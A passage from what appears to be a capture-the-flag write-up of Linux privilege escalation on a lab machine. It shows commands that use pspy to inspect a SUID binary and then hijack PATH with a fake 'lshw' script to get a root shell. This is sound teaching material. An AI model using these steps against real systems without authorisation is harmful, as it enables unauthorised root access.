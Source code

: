 ![](images/suid.png)

Viewing the file information for `/bin/sysinfo` shows the owner is root and, because the SUID bit is set, this file with execute as the owner. Hacking Articles has a [great write-up](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) detailing exactly how we can abuse SUID to escalate our privileges.

```
$ ls -al /bin/sysinfo
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
```

Let's go ahead and  upload pspy64, [an unprivileged process spy](https://github.com/DominicBreuker/pspy), and use it view exactly what is called and executed when we run `sysinfo`.

```
$ scp pspy64 theseus@10.10.10.185:/tmp
```

Running `sysinfo`, we can see it calls a couple commands, one of which is `lshw`.

![](images/processes.png)

Because it does not specify the full path of the command, instead relying on the system `$PATH` variable, we can manipulate the path to execute whatever command we want. Hacking Articles has another [article on this topic](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

First, we'll create a file `lshw` in the `/tmp` directory. Then we will add the `/tmp` directory to the system path. When `sysinfo` is ran, it'll execute our script first, opening a bash shell as root.

```
$ cd /tmp
$ echo "/bin/bash" > lshw
$ chmod 777 lshw
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin/:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ export PATH=/tmp:$PATH
$ sysinfo
```
